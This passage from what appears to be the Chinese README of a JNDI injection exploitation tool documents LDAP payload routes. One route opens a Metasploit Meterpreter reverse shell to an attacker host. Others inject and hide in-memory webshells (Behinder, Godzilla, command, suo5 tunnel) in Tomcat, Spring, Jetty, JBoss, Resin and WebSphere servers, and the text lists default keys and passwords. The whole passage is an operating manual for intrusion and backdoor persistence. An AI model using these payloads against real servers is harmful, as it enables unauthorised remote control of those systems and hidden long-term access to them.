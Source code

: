 ![](https://gallery-1304405887.cos.ap-nanjing.myqcloud.com/markdown%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20230627112538.png)

- 支持tomcatBypass路由直接上线msf：
- 使用msf的java/meterpreter/reverse_tcp开启监听

```
ldap://127.0.0.1:1389/TomcatBypass/Meterpreter/msf/[msf_ip]/[msf_port]
```

---

## 1.1 内存马

两种添加方式：

- 支持引用远程类加载方式打入（Basic路由）。
- 支持本地工厂类加载方式打入（TomcatBypass路由）。

使用说明：
不指定类型就默认为冰蝎马。

- t 选择内存马的类型
  - 不指定类型就默认为冰蝎马
  - bx: 冰蝎内存马，```key: 3c6e0b8a9c15224a```, ```Referer：https://QI4L.cn/```
  - gz: 哥斯拉内存马，```pass: p@ssw0rd```, ```Referer：https://QI4L.cn/```
  - gzraw: 哥斯拉 raw 类型的内存马, ```pass: p@ssw0rd```, ```Referer：https://QI4L.cn/```
  - cmd: cmd命令回显内存马
  - sou5: suo5 隧道马
- a：是否继承恶意类 AbstractTranslet
- o：使用反射绕过
- w：Windows下使用Agent写入
- l：Linux下使用Agent写入
- u：内存马绑定的路径,default [/QI4L]
- pw：内存马的密码,default [p@ssw0rd]
- r：内存马 Referer check,default [https://QI4L.cn/]
- h：通过将文件写入$JAVA_HOME来隐藏内存shell，目前只支持 SpringControllerMS
- ht：隐藏内存外壳，输入1:write /jre/lib/charsets.jar 2:write /jre/classes/

+ 内存马使用示例：
+ 加参数

```
jndi:ldap://127.0.0.1:1389/Basic/tomcatfilterjmx/shell/-u path223 -pw 123456 -r tth.cn
```

+ 默认加载

```
jndi:ldap://127.0.0.1:1389/Basic/tomcatfilterjmx/shell
```

内存马说明：

* ```SpringInterceptor```: 向系统内植入 Spring Interceptor 类型的内存马
* ```SpringController```: 向系统内植入 Spring Controller 类型的内存马
* ```JettyFilter```: 利用 JMX MBeans 向系统内植入 Jetty Filter 型内存马
* ```JettyServlet```: 利用 JMX MBeans 向系统内植入 Jetty Servlet 型内存马
* ```JBossFilter```: 通过全局上下文向系统内植入 JBoss/Wildfly Filter 型内存马
* ```JBossServlet```: 通过全局上下文向系统内植入 JBoss/Wildfly Servlet 型内存马
* ```resinFilterTh```: 通过线程类加载器获取指定上下文系统内植入 Resin Filter 型内存马
* ```resinServletTh```: 通过线程类加载器获取指定上下文系统内植入 Resin Servlet 型内存马
* ```WebsphereMemshell```: 用于植入```Websphere内存shell```， 支持```Behinder shell``` 与 ```Basic cmd shell```
* ```tomcatFilterJmx```: 利用 JMX MBeans 向系统内植入 Tomcat Filter 型内存马
* ```tomcatFilterTh```: 通过线程类加载器获取指定上下文向系统内植入 Tomcat Filter 型内存马
* ```TomcatListenerJmx```: 利用 JMX MBeans 向系统内植入 Tomcat Listener 型内存马
* ```TomcatListenerTh```: 通过线程类加载器获取指定上下文向系统内植入 Tomcat Listener 型内存马
* ```TomcatServletJmx```: 利用 JMX MBeans 向系统内植入 Tomcat Servlet 型内存马
* ```TomcatServletTh```: 通过线程类加载器获取指定上下文向系统内植入 Tomcat Servlet 型内存马

[//]: # (进行加载并实例化。命令使用 `LF-` 开头，后面跟指定自定义类字节码文件的绝对路径，程序会尝试自动缩减类字节码的大小。)